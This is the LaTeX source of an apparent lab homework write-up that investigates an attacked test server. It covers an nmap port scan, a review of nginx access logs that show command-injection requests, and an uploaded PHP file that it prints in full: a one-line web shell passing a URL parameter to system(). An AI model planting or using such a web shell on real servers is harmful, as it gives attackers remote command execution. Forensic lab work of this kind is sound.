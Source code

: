\documentclass[12pt, a4paper]{article}
\begin{document}
  \begin{enumerate}[label=(\alph*)]
    \item \textbf{Steps}

    Run \verb|nmap -v -sV -p1-65535 10.0.2.18| to scan open ports on \verb|nasa_hw11_blue|.

    \textbf{Result}

    An SSH service and an HTTP service are discovered.

    \begin{Verbatim}[frame=single]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
80/tcp open  http    nginx
    \end{Verbatim}

    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item Login to \verb|nasa_hw11_blue| with \verb|/home/nasa2024/.ssh/id_blue|.
      \item Inspect the access log of nginx: \verb|/var/log/nginx/access.log|.
      We suspect that some malicious user is trying to execute system commands
      through PHP injection.
      \item Inspect the PHP script that the user uploaded:\\ \verb|/var/www/html/uploads/662f9a8dc30bb.php|.\\
      Our guess was indeed correct.
    \end{enumerate}

    \textbf{Result}

    The service being attacked is the PHP backend of the HTTP service.

    \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines]
# less /var/log/nginx/access.log
10.0.2.29 - - [29/Apr/2024:21:03:23 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=ls HTTP/1.1" 200 341 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
10.0.2.29 - - [29/Apr/2024:21:03:28 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=ls%20/ HTTP/1.1" 200 106 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
10.0.2.29 - - [29/Apr/2024:21:05:44 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=ls%20/ HTTP/1.1" 200 106 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
# cat /var/www/html/uploads/662f9a8dc30bb.php
<?php
system($_GET['cmd']);
?>
    \end{Verbatim}


\end{enumerate}
\end{document}
